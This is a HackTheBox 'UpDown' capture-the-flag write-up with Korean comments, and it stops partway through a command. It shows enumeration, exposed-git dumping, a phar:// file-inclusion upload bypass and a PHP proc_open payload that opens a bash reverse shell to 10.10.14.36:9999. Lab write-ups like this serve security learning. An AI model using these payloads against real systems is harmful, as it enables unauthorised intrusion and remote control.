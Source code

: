 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a4cb7397e7c127125e4af8261d1c8fef/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/bf7036a51a5414ccfef2e795f8a45153_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/4fcc8fc91aad8d6b18d28968e621f56c_MD5.jpeg)
### dfunc-bypasser.py
```bash
# vi dfunc-bypasser.py 수정
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

# 실행
python dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/11d0d701df649f7c93b673db37e5c66b/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/a031fa0acd34384e5287aa7bf3cf36fd_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/7e35d58b12f926a49afde5d26ee81e62_MD5.jpeg)
### proc_open Exploit
```php
# poc.php
<?php 
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin 
1 => array('pipe', 'w'), // stdout 
2 => array('pipe', 'a') // stderr 
); 
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9999 0>&1'"; 
$process = proc_open($cmd, $descriptorspec, $pipes, null, null); 
?>
```

```bash
zip poc.zip poc.php
m
```